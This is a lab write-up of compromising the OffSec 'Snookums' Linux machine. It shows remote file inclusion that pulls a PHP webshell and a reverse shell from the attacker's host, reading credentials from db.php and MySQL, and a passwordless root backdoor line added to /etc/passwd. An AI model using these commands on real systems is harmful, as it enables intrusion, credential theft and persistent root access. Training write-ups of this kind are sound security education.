# Lab Report - Snookums


# Overview 
- **Difficulty**: Intermediate
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/snookums-294/overview/details

## Resolution Summary 
After discovering a PHP web application running on port 80, we fuzzed for files and parameters and discovered that the `img` parameter under the `image.php` file was vulnerable to RFI. Thus, we gained RCE via RFI by remotely including a PHP reverse shell. Next, we found DB credentials inside the `db.php` file in the application's web root, which allowed us to recover the credentials for the `michael` user. Finally, we leveraged `michael`'s write permission over `/etc/passwd` to add a user with root privileges and gain root access to the target.

# Information Gathering 
- First off, we performed an Nmap scan to find available services and their versions. We noticed a web application running on port 80: 
```bash
sudo nmap 192.168.146.58 -p- -sCV
```
<p align="center">
  
</p>


- After accessing the web application, we noticed that it ran on PHP (`Simple PHP Photo Gallery v0.8`). therefore, we fuzzed for PHP files and we found the `image.php` file: 
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://192.168.146.58/FUZZ.php -t 180 -ic
```
<p align="center">
  
</p>


- Afterwards, we fuzzed for valid parameters, and we discovered that `img` was a valid one: 
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://192.168.146.58/image.php?FUZZ=test -t 180 -ic -fs 1508
```
<p align="center">
  
</p>


- Following that, we inspected the web application and noticed that it seemed to be including the file we provided as the parameter's value: 
```bash
http://192.168.146.58/image.php?img=test
```
<p align="center">
  
</p>


# Exploitation 
- Therefore, we attempted to exploit File Inclusion. We confirmed that the web application was vulnerable by including `/etc/passwd`.
	- We also found a valid user: `michael`
```bash
http://192.168.146.58/image.php?img=../../../../etc/passwd
```
<p align="center">
  
</p>


- Side note: we attempted to read the SSH private key (if any) of the `michael` user, but we couldn't (either it was non-existent or we did not have access to it).
	- Note that we also tried the `id_ed25519` name.
<p align="center">
  
</p> 


- We tested for RFI and the application did follow the URL we provided.
- First, we set up a python HTTP server: 
```bash
python3 -m http.server 80
```

- Next, we query our server via RFI:
```bash
http://192.168.146.58/image.php?img=http://192.168.45.220/help
```
<p align="center">
  
</p>


- Having confirmed the vulnerability, we attempted to exploit it to gain RCE on the target.
- First, we created a PHP webshell and served it with our python HTTP server: 
```bash
echo '<?php system($_GET["cmd"]); ?>' > webshell.php
python3 -m http.server 80
```

- Next, we queried our remote file and executed the `id` command, successfully achieving RCE: 
```bash
http://192.168.146.58/image.php?img=http://192.168.45.220/webshell.php&cmd=id
```
<p align="center">
  
</p>


- Following that, we attempted to gain a reverse shell in order to achieve a foothold on the target.
- We started by setting up a listener: 
```bash
sudo nc -lnvp 22
```

- Then we exploited RFI to include a PHP reverse shell (from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)) and trigger it, allowing us to gain a shell session:
```bash
http://192.168.146.58/image.php?img=http://192.168.45.220/php-reverse-shell.php
```
<p align="center">
  
</p>


- Before progressing any further we stabilized our shell: 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl + Z to background the shell
stty raw -echo; fg
```

# Privilege Escalation 
- After looking up the web root directory, we found the `db.php` file (which we also found earlier when fuzzing for `.php` files), which held MySQL DB credentials for the root user:
```bash
cat /var/www/html/db.php
```
<p align="center">
  
</p>


- Hence, we looged in to the MySQL instance using the credentials we found and we recovered a new set of credentials: 
```bash
mysql -u root -pMalapropDoffUtilize1337
use SimplePHPGal;
select * from users;
```
<p align="center">
  
</p>


- We double base64 decoded `michael`'s password and authenticated as him: 
```bash
echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d | base64 -d
su michael
id
```
<p align="center">
  
</p>


- We collected the first flag: 
```bash
cat /home/michael/local.txt && id && ip a
```
<p align="center">
  
</p>


- Upon inspecting files writable by us, we discovered that we had write permission over `/etc/passwd`: 
	- Note that overlong commands break the shell, which is why the screenshot may seem weird.
```bash
find / \( -path /proc -o -path /sys \) -prune -o -type f -writable -print 2>/dev/null
```
<p align="center">
  
</p>


- Therefore, we created a new user (without a password) with root permissions, logged in as him and gained a root shell: 
```bash
echo 'backdoor::0:0:Superuser:/root:/bin/bash' >> /etc/passwd
su backdoor
id
```
<p align="center">
  
</p>


- Finally, we retrieved the last flag: 
```bash
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
**User.txt → `476bb0c644e836bfd1ba778f122f7e38`**  

**Root.txt → `8e7cf7526b0bb5130dcfdaef32d2712e`**

# Lessons Learned
- Keep thoroughly enumerating.
	- Don't overlook file (with extension) fuzzing
	- Same for GET (and POST eventually) parameter fuzzing.

- Always make sure to not only enumerate world-writable files, but also file that your user can write to.

